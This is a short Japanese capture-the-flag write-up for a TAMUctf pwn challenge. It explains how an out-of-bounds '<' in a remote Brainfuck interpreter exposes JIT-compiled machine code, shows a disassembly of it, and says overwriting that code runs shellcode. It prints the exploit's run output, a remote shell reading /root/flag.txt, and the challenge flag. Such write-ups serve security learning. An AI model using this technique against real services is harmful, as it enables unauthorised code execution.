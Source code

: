 # Solution
brainfu\*kのインタプリタに接続できる。バイナリやソースコードなど提供ファイルはなし。      
とりあえず接続可能なbrainfu\*kインタプリタの機能を使ってメモリの中身を見ていくことにした。      
    
すると「<」で配列外参照が可能で、メモリに何らかのデータが詰まっていた。            
「<」で進めていったメモリ部分に格納されているのは、アドレス値ではないし、文字列でもないように見えた。      
また、brainfu*k系のpwn過去問を見てみるとbrainfu\*kのインタプリタ（というかインタプリタはそうなっているのか）というのはメモリの何処かに機械語命令を展開して、その機械語を実行することによってbrainf\*ckインタプリタ機能を提供しているようだ。      

以上より「<」で進めていったメモリ部分に格納されているのは機械語命令なのではないかと確認してみると、機械語命令だった。
例えば以下の命令がリモートのインタプリタのメモリの中身を機械語に変換してみたものである。綺麗に機械語に出来ており、 <.<.<.　と繰り返し入力した場合の<.の2命令を実行している（だろう）。     

```
sub    rsi,0x1
cmp    rsi,rdx
jae    0x7fffc94cfa99
add    rsi,0x8000
mov    QWORD PTR [rsp+0x30],rdi
mov    QWORD PTR [rsp+0x38],rsi
mov    QWORD PTR [rsp+0x40],rdx
mov    QWORD PTR [rsp+0x48],rcx
movabs rax,0x55ce2077eb50
call   rax
mov    rdi,QWORD PTR [rsp+0x30]
mov    rsi,QWORD PTR [rsp+0x38]
mov    rdx,QWORD PTR [rsp+0x40]
mov    rcx,QWORD PTR [rsp+0x48]
cmp    al,0x0
jne    0x7fffc94d049b
sub    rsi,0x1
cmp    rsi,rdx
...
```
    
あとは、その機械語命令群の一部をうまく書き換えれば、シェルコードを実行することができる。     
     
```
$ python3 exploit.py
[+] Opening connection to challenges.tamuctf.com on port 31337: Done
[*] Switching to interactive mode
 $ ls
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat /root/flag.txt
gigem{2_l3J17_2_qU17_0op5_n3veRm1Nd}
```
